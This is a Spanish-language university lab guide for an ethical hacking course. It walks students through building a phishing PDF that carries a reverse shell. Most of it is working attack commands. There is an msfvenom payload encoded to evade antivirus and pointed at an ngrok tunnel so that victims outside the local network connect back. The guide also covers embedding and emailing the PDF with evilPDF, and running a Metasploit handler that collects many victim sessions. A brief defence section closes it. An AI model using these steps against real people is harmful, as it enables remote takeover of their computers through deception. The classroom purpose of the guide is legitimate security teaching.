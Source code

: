 
# Laboratorio Semana 10 – Ingeniería Social y Esteganografía en PDF - (CY-203 Hackeo Ético)

**Duración estimada:** 1.5 horas  
**Modalidad:** Práctica guiada con máquinas virtuales (Kali Linux y Windows)  
**Objetivo:** Aplicar técnicas de esteganografía y ataque de ingeniería social mediante la creación de documentos PDF con cargas maliciosas embebidas y configuración de listener multiusuario.

---

## Introducción a la Ingeniería Social y Metasploit

Durante este laboratorio simularás un ataque mediante ingeniería social usando un documento PDF aparentemente legítimo que contiene una carga maliciosa. Esta técnica permite obtener acceso remoto a la máquina de una víctima que lo ejecute, aún si no está en la misma red.  

Este tipo de ataque es usado por actores maliciosos que buscan explotar la **confianza del usuario final** y puede ser defendido con entrenamiento, segmentación de red y monitoreo avanzado.

---

## Conceptos básicos en Metasploit

- **RHOSTS:** IP o dominio de la víctima (Remote Host)
- **RPORT:** Puerto remoto al que se conecta el exploit
- **LHOST:** IP del atacante (Local Host)
- **LPORT:** Puerto local para recibir la conexión reversa
- **PAYLOAD:** Código que se ejecutará en la máquina víctima (ej: shell o Meterpreter)
- **Exploit:** Módulo que aprovecha una vulnerabilidad
- **Session:** Conexión activa obtenida tras explotar la víctima
- **ENCODER:** Técnica para ofuscar el payload y evitar antivirus
- **ARCH:** Arquitectura objetivo (x86 para 32 bits, x64 para 64 bits)

---

##  Parte 1: Preparación del entorno

### 1.1 Requisitos
- Kali Linux como atacante
- Máquina virtual Windows 10 como víctima
- Red configurada con NAT o puente (bridge)

---

## Parte 1.5: Exposición a Internet con Ngrok (víctimas fuera de LAN)

Si la víctima no está en tu misma red (por ejemplo, si recibe el PDF por correo), puedes usar **ngrok** para exponer tu listener de Kali Linux a Internet:

### 1.5.1 Prerrequisitos

Debes tener una cuenta gratuita en [https://ngrok.com](https://ngrok.com), haber iniciado sesión en Kali, y tener tu **token autenticado** con:

```bash
ngrok config add-authtoken TU_TOKEN
```

>  Ngrok requiere una **tarjeta registrada** para exponer servicios en puertos TCP como el 4444. La tarjeta no será cobrada, pero es obligatoria para mitigar abuso.

### 1.5.2 Crear túnel TCP con ngrok

```bash
ngrok tcp 4444
```

Verás una salida similar a:

```
Forwarding tcp://4.tcp.ngrok.io:16205 -> localhost:4444
```

Toma nota de:

- `LHOST = 4.tcp.ngrok.io`
- `LPORT = 16205`

---

## Parte 1.6: Generar payload `shell.exe` con los valores de Ngrok

Antes de infectar el PDF, debes generar un ejecutable con el payload adaptado al túnel de Ngrok:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.ngrok.io LPORT=16205 -f exe -e x64/xor_dynamic -i 5 -o shell.exe
```

Este archivo debe colocarse en el mismo directorio del proyecto `evilPDF`, junto a `main.py`.

---

## Parte 2: Generación del PDF infectado con `evilPDF`

### 2.1 Clonar y preparar `evilPDF`

download https://github.com/eamatamorales/HackeoEtico-IngSocial/tree/main/evilPDF
```bash
cd evilPDF
mkdir futures dones evils
chmod +x script/convert.sh
```

### 2.2 Ejecutar main.py

```bash
python3 main.py
```

Durante la configuración inicial escribe el correo, contraseña de envío, y permite que detecte tu IP.

### 2.3 Cargar archivos

```bash
setpdf documento_base.pdf
infect
```

Esto generará un PDF malicioso embebido en la carpeta `evils/`. Puedes verificarlo con:

```bash
showpdf
```

Este archivo puede ser distribuido por correo electrónico usando:

```bash
setmail victima@example.com
sendmail
```

---

## Parte 3: Configuración del listener multiusuario con Metasploit

### 3.1 Escuchar múltiples víctimas

Abre `msfconsole` y configura el listener con los valores reales de ngrok:

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit -j
```

Esto permite que múltiples víctimas se conecten desde Internet al túnel expuesto por ngrok.

---

## Parte 4: Simulación y conexión remota

Cuando la víctima ejecute el archivo embebido desde el PDF, se abrirá una sesión en Metasploit:

```bash
sessions
sessions -i <id>
getuid
sysinfo
```

---

## Parte 5: Consideraciones de múltiples víctimas

Si más de una persona abre el PDF, cada una iniciará su propia sesión:

```bash
sessions -l
```

Podrás interactuar con cada una de forma independiente:

```bash
sessions -i 1
sessions -i 2
```

Esto simula una campaña masiva de ingeniería social.

---

## Parte 6: Defensa y concientización

Recomendaciones:
- Nunca abrir archivos PDF de origen desconocido
- Configurar antivirus que detecte comportamiento sospechoso
- Bloquear conexiones salientes no autorizadas en el firewall
- Usar sandbox para visualizar archivos externos

---

## Entregables

- Captura del listener (Metasploit) con múltiples sesiones activas
- Captura de ejecución de `getuid` o `sysinfo`
- Evidencia de generación del PDF con `evilPDF`
- Reflexión: ¿qué vulnerabilidades humanas son explotadas en este ataque?

---

## Recursos

- [https://github.com/emilJ0/evilPDF](https://github.com/emilJ0/evilPDF)
- [https://ngrok.com/](https://ngrok.com/)
- [https://docs.rapid7.com/metasploit/](https://docs.rapid7.com/metasploit/)

- ---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
